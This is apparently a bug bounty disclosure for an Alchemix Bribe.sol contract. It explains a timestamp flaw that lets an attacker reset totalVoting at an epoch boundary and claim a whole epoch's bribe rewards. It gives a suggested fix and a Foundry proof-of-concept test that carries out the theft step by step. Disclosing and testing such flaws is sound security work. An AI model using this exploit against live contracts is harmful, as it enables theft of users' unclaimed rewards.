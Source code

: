 
# Wrong timestamp for totalVoting

Submitted on May 7th 2024 at 04:17:29 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30860

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The attacker can change `totalVoting` at the first second of a new epoch and steal all reward for an epoch.

## Vulnerability Details
```
    /// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        ...
        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
If an attacker call `Voter.distribute` at `_lastEpochStart + DURATION`, then `Bribe.resetVoting` function is triggered and `totalVoting` is updated to `0`.
And then if the attacker call `Voter.vote` function the same params (or tokenId with less votingPower), then `Bribe._writeVotingCheckpoint` is triggered and `votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes` is updated with the new votes.
And the attacker claim the reward at the next block before other users claim.
The smaller the new vote amount, the more rewards the attacker can steal.

## Impact Details
The attacker can steal reward and other users can't claim the reward.

## Recommandation 
Bribe.sol: 268 line
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;
```
to 
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd) - 1].votes;
```


## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);
    }

    function testBugPriorBalanceIndex() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;



        // go epoch 1
        goNextEpoch();

        // at start time of epoch 1
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 1000, MAXTIME, false);

        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        // totalVoting = (1 + 1000) * votingPowerPerTokenAtMaxtime = 1001 * votingPowerPerTokenAtMaxtime
        // reward expected for targetTokenId = 100K * 1 / 1001 = 100/1001 K

        // go epoch 2
        goNextEpoch();

        // at start time of epoch 2
        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // create a new token with same amount
        uint256 supportTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        // at start time of epoch 2
        voter.vote(supportTokenId, pools, weights, 0);
        // after this tx, the totalVoting = 1 * votingPowerPerTokenAtMaxtime
        // earnedAmount = 100K * 1 / 1 = 100 K
        // it means that the smaller the voting power of the supportTokenId, the more rewards it can steal.
        // but this is not calculated because of block.timestamp == _lastEpochEndthis in Bribe.sol
        //     if (block.timestamp > _lastEpochEnd) {
        //          reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        //     }
        // so the attacker waits for the next block
        hevm.warp(block.timestamp + SECONDS_PER_BLOCK);
        hevm.roll(block.number + 1);

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```